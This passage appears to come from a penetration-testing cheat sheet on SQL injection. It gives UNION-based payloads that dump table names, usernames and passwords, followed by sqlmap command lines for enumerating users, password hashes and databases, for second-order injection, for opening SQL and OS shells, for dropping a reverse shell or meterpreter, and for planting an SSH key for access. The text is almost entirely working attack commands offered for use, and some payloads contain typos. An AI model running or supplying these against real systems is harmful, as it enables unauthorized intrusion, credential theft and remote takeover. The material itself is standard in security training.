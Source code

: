 `union all select group_concat(table_name) from information`_`_`_`schema.tables`

above query will return all the tables present in the database.

* Extract columns

`union all select group_concat(column_name1),group_conat(column_name2) from information`_`_`_`schema.tables where table_name='tablename'`

* Extract data

`union all select group_concat(username),group_conat(passwords) from tablename`

### SQL injection using SQLmap

#### Basic arguments for SQLmap

```
sqlmap --url="<url>" -p username --user-agent=SQLMAP --random-agent --threads=10 --risk=3 --level=5 --eta --dbms=MySQL --os=Linux --banner --is-dba --users --passwords --current-user --dbs
```

#### Load a request file and use mobile user-agent

```
sqlmap -r sqli.req --safe-url=http://10.10.10.10/ --mobile --safe-freq=1
```

#### Custom injection in UserAgent/Header/Referer/Cookie

```
python sqlmap.py -u "http://example.com" --data "username=admin&password=pass"  --headers="x-forwarded-for:127.0.0.1*"
The injection is located at the '*'
```

#### Second order injection

```
python sqlmap.py -r /tmp/r.txt --dbms MySQL --second-order "http://targetapp/wishlist" -v 3
sqlmap -r 1.txt -dbms MySQL -second-order "http://<IP/domain>/joomla/administrator/index.php" -D "joomla" -dbs
```

#### Shell

```
SQL Shell
python sqlmap.py -u "http://example.com/?id=1"  -p id --sql-shell

Simple Shell
python sqlmap.py -u "http://example.com/?id=1"  -p id --os-shell

Dropping a reverse-shell / meterpreter
python sqlmap.py -u "http://example.com/?id=1"  -p id --os-pwn

SSH Shell by dropping an SSH key
python sqlmap.py -u "http://example.com/?id=1" -p id --file-write=/root/.ssh/id_rsa.pub --file-destination=/home/user/.ssh/
```
